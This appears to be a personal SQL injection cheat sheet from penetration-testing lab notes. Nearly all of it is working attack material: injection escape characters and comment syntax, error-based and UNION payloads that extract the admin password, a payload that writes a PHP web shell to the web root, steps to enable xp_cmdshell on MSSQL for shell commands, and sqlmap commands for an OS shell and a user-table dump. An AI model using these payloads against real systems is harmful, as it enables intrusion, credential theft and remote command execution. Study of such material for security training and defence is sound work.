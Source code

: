 ## Basic SQL Reminders

Using the mysql command, we'll connect to the remote SQL instance by specifying root as username and password, along with the default MySQL server port 3306.
> mysql -u root -p'root' -h 192.168.50.16 -P 3306

We can run impacket-mssqlclient to connect to the remote Windows machine running MSSQL by providing a username, a password, and the remote IP, together with the -windows-auth keyword. 
> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

Basic escape chars to try
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

Comments for diff dbs
```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
````


https://medium.com/@harrmahar/escalating-time-based-sql-injection-to-rce-using-xp-cmdshell-1b724b8e3c90

## error-based payload
```
' or 1=1 in (select @@version) -- //
```

## manual sqli via error-based payloads

```
uid=' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //&password=test
```

## find num of columns
```
' ORDER BY 10-- //
```

## union select to create a webshell
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## connecting via impacket-mssqlclient
note: my install is wonky and need to run it as mssqlclient.py Administrator:Lab123@192.168.206.18 -windows-auth
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```
we can now excute windows shell commands



## using sqlmap with -r
```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
where post.txt contains the post request from burp

```
sqlmap -r wp.req -p 'question_id' -D wordpress -T wp_users --dump --technique=T --flush-session
```

GET /wp-admin/admin-ajax.php?action=get_question&question_id=1* HTTP/1.1
Host: alvida-eatery.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1



# time delay

```
'; IF (1=1) WAITFOR DELAY '0:0:10';-- 
```
